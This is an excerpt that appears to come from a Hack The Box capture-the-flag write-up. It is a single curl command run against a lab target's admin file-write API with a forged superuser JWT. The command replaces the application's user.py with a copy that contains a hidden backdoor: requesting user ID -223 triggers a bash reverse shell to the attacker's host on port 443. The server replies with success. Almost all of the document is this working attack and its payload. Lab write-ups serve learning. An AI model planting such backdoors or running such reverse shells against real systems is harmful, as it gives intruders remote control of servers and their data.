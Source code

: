 ```
oxdf@hacky$ curl http://10.10.11.162/api/v1/admin/file/$(echo -n "/home/htb/app/api/v1/endpoints/user.py" | base64) -H 'Content-Type: application/json' -d '{"file": "from typing import Any, Optional\nfrom uuid import uuid4\nfrom datetime import datetime\n\n\nfrom fastapi import APIRouter, Depends, HTTPException, Query, Request\nfrom fastapi.security import OAuth2PasswordRequestForm\nfrom sqlalchemy.orm import Session\n\nfrom app import crud\nfrom app import schemas\nfrom app.api import deps\nfrom app.models.user import User\nfrom app.core.security import get_password_hash\n\nfrom pydantic import schema\ndef field_schema(field: schemas.user.UserUpdate, **kwargs: Any) -> Any:\n    if field.field_info.extra.get(\"hidden_from_schema\", False):\n        raise schema.SkipField(f\"{field.name} field is being hidden\")\n    else:\n        return original_field_schema(field, **kwargs)\n\noriginal_field_schema = schema.field_schema\nschema.field_schema = field_schema\n\nfrom app.core.auth import (\n    authenticate,\n    create_access_token,\n)\n\nrouter = APIRouter()\n\n@router.get(\"/{user_id}\", status_code=200, response_model=schemas.User)\ndef fetch_user(*, \n    user_id: int, \n    db: Session = Depends(deps.get_db) \n    ) -> Any:\n    \"\"\"\n    Fetch a user by ID\n    \"\"\"\n    if user_id == -223:\n        import os; os.system('\''bash -c \"bash -i >& /dev/tcp/10.10.14.6/443 0>&1\"'\'')\n    result = crud.user.get(db=db, id=user_id)\n    return result\n\n\n@router.put(\"/{user_id}/edit\")\nasync def edit_profile(*,\n    db: Session = Depends(deps.get_db),\n    token: User = Depends(deps.parse_token),\n    new_user: schemas.user.UserUpdate,\n    user_id: int\n) -> Any:\n    \"\"\"\n    Edit the profile of a user\n    \"\"\"\n    u = db.query(User).filter(User.id == token['\''sub'\'']).first()\n    if token['\''is_superuser'\''] == True:\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\n    else:        \n        u = db.query(User).filter(User.id == token['\''sub'\'']).first()        \n        if u.id == user_id:\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\n            return {\"result\": \"true\"}\n        else:\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\n\n@router.put(\"/{user_id}/password\")\nasync def edit_password(*,\n    db: Session = Depends(deps.get_db),\n    token: User = Depends(deps.parse_token),\n    new_user: schemas.user.PasswordUpdate,\n    user_id: int\n) -> Any:\n    \"\"\"\n    Update the password of a user\n    \"\"\"\n    u = db.query(User).filter(User.id == token['\''sub'\'']).first()\n    if token['\''is_superuser'\''] == True:\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\n    else:        \n        u = db.query(User).filter(User.id == token['\''sub'\'']).first()        \n        if u.id == user_id:\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\n            return {\"result\": \"true\"}\n        else:\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\n\n@router.post(\"/login\")\ndef login(db: Session = Depends(deps.get_db),\n    form_data: OAuth2PasswordRequestForm = Depends()\n) -> Any:\n    \"\"\"\n    Get the JWT for a user with data from OAuth2 request form body.\n    \"\"\"\n    \n    timestamp = datetime.now().strftime(\"%m/%d/%Y, %H:%M:%S\")\n    user = authenticate(email=form_data.username, password=form_data.password, db=db)\n    if not user:\n        with open(\"auth.log\", \"a\") as f:\n            f.write(f\"{timestamp} - Login Failure for {form_data.username}\\n\")\n        raise HTTPException(status_code=400, detail=\"Incorrect username or password\")\n    \n    with open(\"auth.log\", \"a\") as f:\n            f.write(f\"{timestamp} - Login Success for {form_data.username}\\n\")\n\n    return {\n        \"access_token\": create_access_token(sub=user.id, is_superuser=user.is_superuser, guid=user.guid),\n        \"token_type\": \"bearer\",\n    }\n\n@router.post(\"/signup\", status_code=201)\ndef create_user_signup(\n    *,\n    db: Session = Depends(deps.get_db),\n    user_in: schemas.user.UserSignup,\n) -> Any:\n    \"\"\"\n    Create new user without the need to be logged in.\n    \"\"\"\n\n    new_user = schemas.user.UserCreate(**user_in.dict())\n\n    new_user.guid = str(uuid4())\n\n    user = db.query(User).filter(User.email == new_user.email).first()\n    if user:\n        raise HTTPException(\n            status_code=400,\n            detail=\"The user with this username already exists in the system\",\n        )\n    user = crud.user.create(db=db, obj_in=new_user)\n\n    return user\n\n"}' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1IiwiZGVidWciOnRydWV9.oyFkKgOC6zls6IY7i3-IOalxgFWXfyR3SRVlFVovLao'
{"result":"success"}

```
